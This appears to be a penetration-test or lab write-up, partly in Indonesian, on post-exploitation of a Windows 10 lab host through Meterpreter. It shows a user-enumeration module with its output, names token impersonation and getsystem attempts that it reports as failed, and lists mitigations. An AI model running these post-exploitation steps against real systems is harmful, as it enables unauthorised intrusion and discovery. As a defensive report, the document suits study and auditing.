


# Post-Exploitation

## Current Access Level
| Parameter  | Value            |
|------------|------------------|
| Computer   | WNDSDUMMY        |
| User       | WNDSDUMMY\WDS    |
| OS         | Windows 10 22H2+ (Build 19045) |
| Domain     | WORKGROUP        |
| Integrity  | Medium           |

---

## System Enumeration

### Logged On Users
**MITRE ATT&CK: T1033 — System Owner/User Discovery**

    meterpreter > run post/windows/gather/enum_logged_on_users
    Running module against WNDSDUMMY (192.168.56.103)

    Current Logged Users
    SID                                            User
    ---                                            ----
    S-1-5-21-2130342140-1016094387-1665561186-1000 WNDSDUMMY\WDS

    Recently Logged Users
    SID        Profile Path
    ---        ------------
    S-1-5-18   C:\Windows\system32\config\systemprofile
    S-1-5-19   C:\Windows\ServiceProfiles\LocalService
    S-1-5-20   C:\Windows\ServiceProfiles\NetworkService
    S-1-5-21-* C:\Users\WDS

Screenshot:

---

## Privilege Escalation Attempt
**MITRE ATT&CK: T1134 — Access Token Manipulation**

Percobaan privilege escalation dilakukan menggunakan dua teknik:

- `use incognito` + `impersonate_token` — gagal, tidak ada token SYSTEM tersedia
- `getsystem` — gagal, semua metode pipe impersonation ditolak sistem

Sistem target berjalan dengan security control yang mencegah
escalation otomatis dari user standard `WNDSDUMMY\WDS`.

Screenshot:

---

## Impact Analysis
Dengan akses sebagai user `WNDSDUMMY\WDS`, attacker dapat:
- Enumerasi user dan profil yang pernah login
- Akses file dan folder milik user aktif
- Eksekusi perintah arbitrary di sistem target

## Mitigations
- Principle of Least Privilege — batasi hak akses user standar
- Enable Credential Guard di Windows 10/11
- Monitor aktivitas mencurigakan via Windows Event Log ID 4624/4672
- Deploy EDR untuk deteksi post-exploitation behavior
